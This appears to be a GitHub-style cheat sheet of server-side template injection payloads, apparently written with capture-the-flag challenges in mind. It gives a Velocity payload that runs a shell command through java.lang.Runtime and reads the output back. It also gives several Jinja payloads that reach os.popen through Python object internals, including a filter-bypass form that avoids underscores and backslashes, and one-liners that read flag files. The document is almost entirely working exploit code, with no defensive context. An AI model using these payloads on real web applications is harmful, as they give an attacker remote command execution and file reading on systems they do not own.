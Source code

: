 #### Velocity template Langauge payload:

```
#set($engine="string")#set($run=$engine.getClass().forName("java.lang.Runtime"))#set($runtime=$run.getRuntime())#set($proc=$runtime.exec("ls -al"))#set($null=$proc.waitFor())#set($istr=$proc.getInputStream())#set($chr=$engine.getClass().forName("java.lang.Character"))#set($output="")#set($string=$engine.getClass().forName("java.lang.String"))#foreach($i in [1..$istr.available()])#set($output=$output.concat($string.valueOf($chr.toChars($istr.read()))))#end$output
```

#### Jinja payload <i>(Python)</i> : 

```py
 #normal payload
 {{ ''.__class__.__base__.__subclasses__()[103].__init__.__globals__['sys'].modules['os'].popen("ls").read() }}

 #payload without '_' and without '\' 
{% set c='%c%c'|format(95,95) %}  {{ dict.mro()[-1] | attr(c~'subclasses'~c)() | attr(c~'getitem'~c)(183) |attr(c~'init'~c) | attr(c~'globals'~c) | attr(c~'getitem'~c)('sys') | attr('modules') | attr(c~'getitem'~c)('os') | attr('popen')('cat flag*') | attr('read')() }}

 #shortcuts
 {{ url_for.__globals__.os.popen("ls").read() }}
 {{ self.__init__.__globals__.__builtins__.open("/flag.txt").read() }}
 ```

![image](https://github.com/user-attachments/assets/d812c5f3-2f59-476a-a1e8-6a7ae978695a)

